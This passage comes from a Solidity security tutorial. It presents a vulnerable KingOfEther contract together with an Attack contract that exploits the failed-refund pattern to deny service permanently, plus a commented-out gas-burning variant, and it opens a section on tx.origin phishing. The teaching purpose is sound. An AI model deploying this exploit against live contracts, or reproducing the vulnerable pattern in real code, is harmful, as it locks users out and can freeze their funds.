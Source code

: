 /*
The goal of KingOfEther is to become the king by sending more Ether than
the previous king. Previous king will be refunded with the amount of Ether
he sent.
*/

/*
1. Deploy KingOfEther
2. Alice becomes the king by sending 1 Ether to claimThrone().
2. Bob becomes the king by sending 2 Ether to claimThrone().
   Alice receives a refund of 1 Ether.
3. Deploy Attack with address of KingOfEther.
4. Call attack with 3 Ether.
5. Current king is the Attack contract and no one can become the new king.

What happened?
Attack became the king. All new challenge to claim the throne will be rejected
since Attack contract does not have a fallback function, denying to accept the
Ether sent from KingOfEther before the new king is set.
*/

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // You can also perform a DOS by consuming all gas using assert.
    // This attack will work even if the calling contract does not check
    // whether the call was successful or not.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```


# 8. Phishing with tx.origin

Code: https://solidity-by-example.org/hacks/phishing-with-tx-origin

What's the difference between msg.sender and tx.origin?
If contract A calls B, and B calls C, in C msg.sender is B and tx.origin is A.

A malicious contract can deceive the owner of a contract into calling a function that only the owner should be able to call.

```